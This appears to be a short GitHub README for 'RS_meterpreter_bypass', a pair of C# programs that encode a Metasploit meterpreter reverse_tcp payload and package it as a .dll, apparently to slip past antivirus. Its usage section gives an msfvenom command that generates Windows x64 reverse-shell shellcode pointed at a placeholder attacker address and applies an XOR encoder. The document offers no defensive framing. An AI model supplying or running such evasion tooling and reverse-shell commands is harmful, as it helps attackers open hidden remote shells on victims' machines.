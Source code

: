 # RS_meterpreter_bypass
These two C# programs are used to encode and create a .dll file from a starting metasploit encoded reverse_tcp payload.

# How to use
Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

<msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic>
